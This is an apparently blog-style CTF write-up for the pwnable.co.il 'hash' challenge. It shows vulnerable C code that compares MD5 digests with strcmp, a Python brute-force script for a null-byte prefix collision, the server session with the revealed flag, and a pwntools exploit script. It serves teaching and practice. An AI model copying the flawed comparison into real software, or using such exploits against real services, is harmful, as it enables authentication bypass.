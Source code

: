 ```yaml
---
title: "pwnable.co.il - hash"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "Hash collision challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> I heard it takes months to find an MD5 collision...

```c
// hash.c
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <openssl/md5.h>

char flag_str[0x100];

void init_buffering() {
    setvbuf(stdin, NULL, 2, 0);
    setvbuf(stdout, NULL, 2, 0);
    setvbuf(stderr, NULL, 2, 0);
    alarm(60);
}

int main() {
    init_buffering();
    unsigned char flag_hash[MD5_DIGEST_LENGTH];
    MD5_CTX flag;
    MD5_Init(&flag);
    int fd = open("flag", O_RDONLY);
    int bytes = read(fd, &flag_str, 0x100);
    close(fd);
    MD5_Update(&flag, flag_str, bytes);
    MD5_Final(flag_hash, &flag);
    puts("Flag MD5: ");
    for(int i = 0; i < MD5_DIGEST_LENGTH; i++) printf("%02x", flag_hash[i]);
    puts("");

    printf("Enter your guess: ");
    char guess_hash[MD5_DIGEST_LENGTH];
    char* guess = malloc(bytes+1);
    bytes = read(0, guess, bytes);
    MD5_CTX guess_ctx;
    MD5_Init(&guess_ctx);
    MD5_Update(&guess_ctx, guess, bytes);
    MD5_Final(guess_hash, &guess_ctx);
    if (!strcmp(flag_hash, guess_hash)) {
        puts("Congrats!!!");
        puts(flag_str);
    } else {
        puts("Wrong!!");
    }
    return 1;
}
```

In shortly, this code reads the contents of the flag file, hashes it using MD5, 
and stores the result in a local variable. It then takes user input, hashes it and compares it with the flag’s hash. 
If the hashes match, the flag is revealed; otherwise, a failure message is displayed.

Now, let's dig into the code and look for vulns in the hashing process.
The most interesting part is this snippet:

```c
printf("Enter your guess: ");
char guess_hash[MD5_DIGEST_LENGTH];
char* guess = malloc(bytes+1);
bytes = read(0, guess, bytes);
MD5_CTX guess_ctx;
MD5_Init(&guess_ctx);
MD5_Update(&guess_ctx, guess, bytes);
MD5_Final(guess_hash, &guess_ctx);
if (!strcmp(flag_hash, guess_hash)) {
    puts("Congrats!!!");
    puts(flag_str);
} else {
    puts("Wrong!!");
}
```

Here, we see how user input is processed and hashed. 
A small issue lies in using `strcmp` to compare the hashes since `strcmp` stops at the first null byte (`\0`), 
So we can use it to exploit this by brute-forcing strings until we find a hash with the same first bytes as the flag hash!

### Server response:
```bash
$ nc pwnable.co.il 9006
Flag MD5: 
537500469ddfc5b29e9379cdcc2f3c86
Enter your guess:
```
The flag hash is `537500469ddfc5b29e9379cdcc2f3c86`, and the hash ends with a null byte after `5375`.
Therefore, we need to find another string whose hash starts with `537500`.

- Note: The server will also receive the `\n` character in both cases,
  whether sending the string via terminal `netcat` or using the `sendline` function from pwntools,
  so I must add the `\n` character to each string in the brute force.
  
## Brute-force script:
```python
import hashlib
import itertools
import string

# Function to convert string to md5
def get_md5_hash(s):
    return hashlib.md5(s.encode('utf-8')).hexdigest()

def brute_force_flag():
    # Define the possible characters that might appear in the flag (lowercase letters and numbers)
    characters = string.ascii_lowercase + string.digits

    # We will brute-force the flag bytes with length from 1 to 10 characters
    for length in range(1, 11): 
        for guess in itertools.product(characters, repeat=length):
            guess_str = ''.join(guess) + "\n"
            hash_guess = get_md5_hash(guess_str)
            
            # Print the guess and its corresponding hash
            print(f"Trying: {guess_str} --> MD5: {hash_guess}")
            
            if hash_guess.startswith("537500"):
                print(f"Found matching str: {guess_str}")
                return guess_str

    print("Flag not found within specified length range.")
    return None

if __name__ == "__main__":
    brute_force_flag()
```

#### Script results: 
```
Trying: g4nw4
 --> MD5: 537500598c2101141d3d9f25fb41f9e6
Found matching str: g4nw4
```

Now lets send it to the server!
```bash
$ nc pwnable.co.il 9006
Flag MD5: 
537500469ddfc5b29e9379cdcc2f3c86
Enter your guess: g4nw4
Congrats!!!
PWNIL{How_the_hell_did_you_find_this_collision?30105270}
```

## payload
```python
from pwn import *

def main():
	r = remote("pwnable.co.il", 9006)
	r.sendline("g4nw4") # "g4nw4\n" = 537500598c2101141d3d9f25fb41f9e6
	print(r.recvall().decode())
	
if __name__ == "__main__":
	main()
```
